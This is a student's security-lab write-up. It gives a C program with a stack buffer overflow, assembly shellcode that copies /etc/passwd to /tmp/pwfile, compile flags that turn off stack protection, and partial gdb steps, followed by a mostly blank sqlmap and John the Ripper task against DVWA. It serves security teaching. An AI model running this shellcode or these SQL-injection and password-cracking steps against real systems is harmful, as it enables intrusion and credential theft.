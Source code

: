 # Lab #1,22110009, Le Cong Bao, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  #### step 1: Create a vulnerable c program
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano vulnerable.c 
  ```
  ![image](https://github.com/user-attachments/assets/227b7284-5d61-466c-a766-f56c8ba2579b)

  #### step 2: Compile the vulnerable c program
  ```bash
     gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
  ```
  
  - -fno-stack-protector: Disables stack protection, making the program vulnerable to buffer overflow attacks.
  - -z execstack: Allows execution of code on the stack, enabling exploitation through injected shellcode.
  #### step 3: Build an Assemply payload
  ``` 
    seed@567028f4b4b0:~/seclabs/bof$ nano shellcode.asm
  ```
  ![image](https://github.com/user-attachments/assets/4f8b0e7d-a38a-4098-bab7-025926764e0b)

  #### step 4: Compile the Asssemply code
  ```bash
     nasm -f elf32 -o shellcode.o shellcode.asm
     ld -m elf_i386 -o shellcode shellcode.o
  ```
  #### step 5: Find the address of the shellcode
  ```bash
     gdb ./vulnerable
  ```
  - in `gdb` set a breakpoint at `main ` run the program with a dummy argument to obtain the address of your shellcode.
  ```bash
     break main
     run $(python -c "print('A'*72)")
     p &buffer
  ```
    
**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
